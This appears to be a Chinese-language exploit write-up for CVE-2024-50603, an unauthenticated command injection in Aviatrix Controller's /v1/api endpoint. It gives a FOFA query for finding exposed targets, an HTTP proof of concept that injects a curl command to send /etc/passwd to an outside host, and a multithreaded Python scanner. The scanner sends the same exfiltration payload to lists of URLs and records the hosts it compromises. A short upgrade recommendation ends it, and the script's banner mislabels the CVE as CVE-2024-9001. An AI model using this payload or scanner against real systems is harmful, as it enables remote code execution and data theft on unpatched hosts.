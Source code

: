 # 漏洞描述
<font style="color:rgb(52, 58, 64);">在Aviatrix Controller的7.1.4191版本之前以及7.2.x在7.2.4996版本之前存在一个漏洞。由于未正确处理操作系统命令中的特殊元素，未经身份验证的攻击者可以执行任意代码。云类型中的/v1/api用于发送shell元字符到list_flightpath_destination_instances或src_cloud_type的flightpath_connection_test。</font>

# <font style="color:rgb(52, 58, 64);">参考链接</font>
[https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/](https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/)

# fofa
title="Aviatrix Controller"

# 披露时间
<font style="color:rgb(33, 37, 41);">2025-01-08</font>

# <font style="color:rgb(33, 37, 41);">漏洞复现</font>

poc

```http
POST /v1/api HTTP/1.1
Host: 
Content-Length: 177
Content-Type: application/x-www-form-urlencoded
 
action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://dns.com)
```

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib


# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间

def verify(url, proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    try:
        num = str(random.randint(1000, 9999))
        dns = f'https://eyes.sh/api/dns/{num}/?token=8398ce3f'
        path = "/v1/api"
        vul_url = url + path
        header = {
            'Content-Length': '177',
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        data = '''action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://'''+ num +'''.xhs99.eyes.sh)'''
        res = requests.post(vul_url, data=data, headers=header, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        a = requests.get(dns, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        if res.status_code == 200:
            if "True" in a.text:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('CVE-2024-50603.txt', 'a') as f:
                    f.write(url + '\n')
        else:
            print("[-] No vulnerabilities found")
        # if response.status_code == 200:
        #     print('[+] Verified')
        # else:
        #     print('[-] Verification Failed')
    except requests.exceptions.RequestException as e:
        print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("CVE-2024-9001".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
<font style="color:rgb(52, 58, 64);">"将组件 Controller 升级至 7.2.4996 及以上版本"</font>

